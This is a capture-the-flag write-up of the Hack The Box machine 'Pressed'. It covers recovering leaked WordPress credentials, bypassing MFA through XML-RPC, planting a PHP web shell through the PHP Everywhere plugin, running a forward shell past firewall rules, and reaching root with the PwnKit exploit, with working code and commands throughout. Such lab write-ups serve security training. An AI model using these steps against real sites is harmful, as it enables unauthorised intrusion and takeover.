

# Pressed

This is the write-up for the box Pressed that got retired at the 5th February 2022.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.142    pressed.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pressed.nmap 10.10.11.142
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.9
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
```

## Checking HTTP (Port 80)

The webserver hosts a blog with one post and in the HTML source code there are paths that are typical for **WordPress** instances.
Browsing to _wp-admin_ forwards to the login page on the hostname _pressed.htb_ and confirms that observation.

Enumerating **WordPress** with **WPScan**:
```
wpscan --url http://pressed.htb -e ap,u --plugins-detection aggressive
```
```
[i] Config Backup(s) Identified:
[!] http://pressed.htb/wp-config.php.bak
```

It exposes a backup file of _wp-config.php_ which contains credentials for the database:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );
```

This password can be tried on the _wp-login.php_ login form with the user _admin_.
The provided password does not work, but by changing the year to 2022, it is valid and forwards to a page on which it wants to validate an **OTP** on the [Two-Factor Authentication application of miniOrange](https://www.miniorange.com/products/two-factor-authentication-(2fa):



We cannot get through this, but the results of **WPScan** showed, that **XML-RPC** is enabled:
```
[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
```

The [XML-RPC WordPress API](https://codex.wordpress.org/XML-RPC_WordPress_API) is a legacy way for services to communicate with WordPress and it is not able to implement MFA.

Listing all methods with `curl`:
```
curl -d '<?xml version="1.0"?> <methodCall> <methodName>system.listMethods</methodName> </methodCall>' http://pressed.htb/xmlrpc.php
```

### Exploiting WordPress XML-RPC

I will use the Python library [python-wordpress-xmlrpc](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/) to interact with the XML-RPC interface:
```
pip3 install python-wordpress-xmlrpc
```

Trying to upload a file:
```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.compat import xmlrpc_client
import wordpress_xmlrpc.methods as wp

client = Client('http://pressed.htb/xmlrpc.php', username='admin', password='uhc-jan-finals-2022')

data = {
    'name': 'shell.php',
    'type': 'image/jpeg',
}

with open("shell.php", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```
```
xmlrpc.client.Fault: <Fault 500: 'Could not write file shell.php (Sorry, you are not allowed to upload this file type.).'>
```

Unfortunately it is not possible to upload PHP files with this user.

Checking the contents of the post:
```python
p = client.call(wp.posts.GetPosts())[0]
p.content
```
```
wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"}
```

The post uses the [PHP Everywhere plugin](https://wordpress.org/plugins/php-everywhere/) and has PHP code in it.

Base64-decoding the string:
```
echo JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxl(...) | base64 -d
```
```
%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E
```

URL-decoding the result:
```
<?php  echo(file_get_contents('/var/www/html/output.log')); ?>
```

This means a post with **PHP Everywhere** code can be created in it to execute arbitrary PHP code.

Creating PHP reverse shell _(shell.php)_
```
<?php
  system($_REQUEST['cmd']);
?>
```

Base64-encoding _shell.php_
```
base64 shell.php -w 0
```

Creating PHP code to upload a PHP file _(upload.php)_:
```
<?php
  file_put_contents('shell.php', base64_decode('PD9waHAgCnN5c3RlbSgkX1JFUVVFU1RbJ2NtZCddKTsKPz4K'));
  echo("Success");
?>
```

Base64-encoding _upload.php_
```
base64 upload.php -w 0
```

Cloning the post and adding our PHP code:
```python
p.id = 2
p.content = '<!-- wp:paragraph -->\n<>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAKICBmaWxlX3B1dF9jb250ZW50cygnc2hlbGwucGhwJywgYmFzZTY0X2RlY29kZSgnUEQ5d2FIQWdDbk41YzNSbGJTZ2tYMUpGVVZWRlUxUmJKMk50WkNkZEtUc0tQejRLJykpOwogIGVjaG8oIlN1Y2Nlc3MiKTsKPz4K","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

client.call(wp.posts.NewPost(p))
```

There is a new post on the homepage and after opening it, it will execute the PHP code and create _shell.php_, which can be used for command execution:
```
http://pressed.htb/shell.php?cmd=id
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting Shell Access

Unfortunately it is not possible to get a reverse shell as there is a firewall rule implemented:
```
POST /shell.php
(...)

cmd=cat /etc/iptables/rules.v4
```
```
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A OUTPUT -p tcp -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
COMMIT
```

It accepts only connections on port 80 and drops every outgoing packet if it is not an established or related connection.
To bypass this, the [Forward-Shell from ippsec](https://github.com/IppSec/forward-shell) can be used after modifying some parts of it:
```python
# MODIFY THIS, URL
self.url = r"http://pressed.htb/shell.php"

# (...)

# MODIFY THIS: Payload in User-Agent because it was used in ShellShock
data = { 'cmd': payload }
        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
# (...)
```

Executing _forward-shell.py_:
```
python3 forward-shell.py
```

Now we have a pseudo-shell as the user _www-data_.

## Privilege Escalation

Searching for files owned by root and the **Setuid bit** set:
```
find / -perm -4000 -user root -ls | grep -v /var 2>/dev/null
```

The binary _/usr/bin/pkexec_ is especially interesting as it may be vulnerable to the [PwnKit vulnerability](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

I will use the bash implementation for [CVE-2021-4034 on GitHub](https://github.com/kimusan/pkwner).

Uploading the _pkwner.sh_ script to the box via **XML-RPC**:
```python
data = {
    'name': 'pkwner.jpeg',
    'type': 'image/jpeg',
}

with open("pkwner.sh", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```

The file will be uploaded to _/var/www/html/wp-content/uploads/2022/12/pkwner.jpeg_ and we can browse there with our **Forward-Shell** to execute it:
```
cd /var/www/html/wp-content/uploads/2022/12/

chmod +x pkwner.jpeg

bash pkwner.jpeg
```

After executing the script, it can be confirmed with the `id` command that privileges got escalated to root!
```
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
